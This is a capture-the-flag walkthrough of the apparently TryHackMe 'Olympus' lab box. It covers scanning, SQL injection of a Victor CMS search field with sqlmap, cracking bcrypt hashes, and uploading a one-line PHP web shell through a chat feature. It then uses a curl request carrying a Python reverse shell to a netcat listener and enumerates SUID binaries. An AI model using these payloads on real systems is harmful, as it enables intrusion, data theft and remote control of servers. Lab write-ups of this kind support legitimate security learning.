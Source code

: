 # THM-Olympus-CTF
# Port Scanning
As you can see from the Nmap scan, port 22 ssh and port 80 are open. And port 80 redirects us to http://olympus.thm 

```bash
root@ip-10-10-230-85:~# rustscan -a 10.10.182.192 -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time \u231b

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.182.192:22
Open 10.10.182.192:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://olympus.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add the domain name olympus to your hosts file
```bash
echo "10.10.27.68 olympus.thm" >> /etc/hosts
```
Et voilà !  We have acces to the web site.Unfortunately, we are greeted with a message saying that this site is still under construction...

![image](https://user-images.githubusercontent.com/90036439/223972505-ab22dc4d-99b4-4295-96e5-7d3ec9145d5a.png)

# Ennumeration
Let's start by seeing if we can discover some interesting files 

```bash
root@ip-10-10-70-200:~# ffuf -u http://olympus.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 1948, Words: 238, Lines: 48]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
phpmyadmin              [Status: 403, Size: 276, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]
static                  [Status: 301, Size: 311, Words: 20, Lines: 10]
~webmaster              [Status: 301, Size: 315, Words: 20, Lines: 10]
:: Progress: [4655/4655] :: Job [1/1] :: 33790 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
Bingo ! We have ~webmaster

![image](https://user-images.githubusercontent.com/90036439/223973205-ac9467ee-8ca2-43be-906c-0b69d4c14fcf.png)

While messing around on the site I was able to trigger an SQL error on the "search" parameter. By doing some deep research, I saw that Victor CMS was vulnerable to SQL injections.
https://www.exploit-db.com/exploits/48734

![image](https://user-images.githubusercontent.com/90036439/223974836-e8de8d9a-c3f8-43d0-91da-08e3753e8d06.png)

I saved the querry via burpsuit and send it to sqlmap. I was able to recover all the databases on the server. But only Olympus interests me.
So I dump all the data from the Olympus

```bash
root@ip-10-10-70-200:~# sqlmap -r victorCMS-search.request --dbs

[...]

[09:17:14] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys

root@ip-10-10-70-200:~# sqlmap -r victorCMS-search.request --dump -D olympus
```
![image](https://user-images.githubusercontent.com/90036439/223977555-baf68ac5-5e32-4d50-b2c7-c0ea7013e61a.png)

Now that we have hashes we can try to crack some user password. First i tried promotheus.
After a while I got a password
```bash
root@ip-10-10-70-200:~# john promotheus.hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s[.........]e       (?)
1g 0:00:06:29 DONE (2023-03-09 09:30) 0.002569g/s 10.31p/s 10.31c/s 10.31C/s 19861986..543210
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Exploring the database i found a table called chats. 

```Database: olympus
Table: chats
[3 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+


```

![image](https://user-images.githubusercontent.com/90036439/223977977-be6d630d-dd90-4e56-80cf-56c1de2884c3.png)

![image](https://user-images.githubusercontent.com/90036439/223983373-552684f7-5e73-4b54-ba76-ff0d0c38858a.png)

![image](https://user-images.githubusercontent.com/90036439/223985036-95de1514-234a-4bfb-8717-edfccd387bd5.png)

Let's put together what we know. The IT guy made sure that the files that are sent to the server via chat have a random name. We also know that all messages are stored in the database including the files we send. We can make a php file containing a reverse shell or one that executes commands on the server. Upload it to the server via the chat. Dump the database and get its name

```bash
root@ip-10-10-70-200:~# cat totalyNotEvileFile.php 
<?php system($_GET["cmd"]); ?>
root@ip-10-10-70-200:~# sqlmap -r victorCMS-search.request --dump -D olympus -T chats --fresh-queries 
```
![image](https://user-images.githubusercontent.com/90036439/223987707-10423bfa-ffa9-4365-9aff-9e3763597f1d.png)

```bash
root@ip-10-10-70-200:~# ffuf -u http://chat.olympus.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://chat.olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htpasswd               [Status: 403, Size: 281, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 281, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 281, Words: 20, Lines: 10]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10]
phpmyadmin              [Status: 403, Size: 281, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10]
static                  [Status: 301, Size: 321, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10]
:: Progress: [4655/4655] :: Job [1/1] :: 11317 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
![image](https://user-images.githubusercontent.com/90036439/223988276-0a0779ab-2cfd-4b1e-a09f-c56f732dd54c.png)

```
curl http://chat.olympus.thm/uploads/32c800549703817361ff290d8b2bfc9a.php?cmd=python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.70.200%22%2C9001%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```bash
root@ip-10-10-70-200:~# nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.27.68 35650 received!
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")';export TERM=xterm
<mport pty;pty.spawn("/bin/bash")';export TERM=xterm            
www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 9001
root@ip-10-10-70-200:~# stty raw -echo;fg
nc -lvnp 9001

www-data@olympus:/var/www/chat.olympus.thm/public_html/uploads$ 
```

```bash
www-data@olympus:/var/www/html/chat.olympus.thm$ find / -type f -perm -4000 2>/dev/null | grep -v /snap*
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/newgrp

```
